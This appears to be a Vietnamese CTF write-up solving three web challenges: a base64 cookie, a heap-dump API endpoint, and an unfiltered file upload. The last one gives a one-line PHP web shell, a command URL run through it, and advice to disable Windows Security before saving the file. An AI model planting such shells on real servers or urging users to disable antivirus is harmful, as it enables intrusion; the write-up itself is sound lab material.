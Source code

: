 # Cookie Monster Secret Recipe

![image](https://github.com/user-attachments/assets/7e833cc6-02ab-429e-a247-af91a9d8dbfd)

1. bài cho 1 số hint về cookie của trang web này => điều đầu tiên ta nghĩ tới là kiếm tra cookie của trang web này

![image](https://github.com/user-attachments/assets/7c4fb121-335a-49c4-8311-b06819b21f6e)

2. có vẻ cookie của trang web chưa có gì, thử đăng nhập với tên và mật khẩu bất kì, ta sẽ thấy 1 đoạn base64 xuất hiện trong data cookie
3. decode đoạn base64 rồi nộp flag

# head-dump

![image](https://github.com/user-attachments/assets/3d6c6438-bf1c-4002-a84a-8979b00251cc)

1. đề bài nói rằng đây là 1 trang blog bao gồm cả 'API Documentation' khá là đáng ngờ khi chỉ riêng điều này được liệt kê

![image](https://github.com/user-attachments/assets/d9cbce66-0ee1-43dc-9014-613d4b3dccf2)

2. cố gắng truy cập vào cuối trang web khi bấm vào #API Documentation ta sẽ được di chuyển tới 1 trang web khác
3. kéo xuống cuối sẽ có 1 mục 'heap-dump' giống như đề bài 'try it out' -> 'excute' -> tải file trên trang web về rồi `ctrl + f` để tìm flag

# n0s4n1ty 1

![image](https://github.com/user-attachments/assets/91e5a6b3-7f82-402c-8c9f-81bd5fe1987b)
![image](https://github.com/user-attachments/assets/7a6c379d-a600-4c89-a5b1-e24b764ced1b)

1. dựa theo đề bài và hint 1, trang web này là 1 trang web tải lên ảnh đại điện nhưng bị lỗi và các file được gửi lên không được lọc định dạng
2. đây là cơ hội cho ta để thâm nhập vào trang web để đọc flag từ thư mục `/root`
3. ta sẽ bypass trang wep này bằng 1 file `.php`

        php: là một ngôn ngữ lập trình web, các file thường có đuổi `.php`
        ta cần tạo 1 file web shell .php để điều khiển trang web từ xa

4. tạo 1 file text và ghi dòng lệnh `<?php system($_GET['cmd']); ?>` rồi `save as` với đuôi `.php`

        $_GET['cmd'] lấy dữ liệu từ đường link URL.
        system() thực thi lệnh hệ thống trên server.

5. vì đây là 1 file crack trang web, tự như mã độc lên windown security sẽ xóa nó ngay, ta cần tắt đi trước khi tạo
6. upload file này lên trang web sau đó dùng đường link để ghi lệnh `http://expico.com/uploads/shell.php?cmd=sudo ls -l` để liệt kê file trong web
7. rồi cat file flag từ thư mục `root` ra

# SSTI1















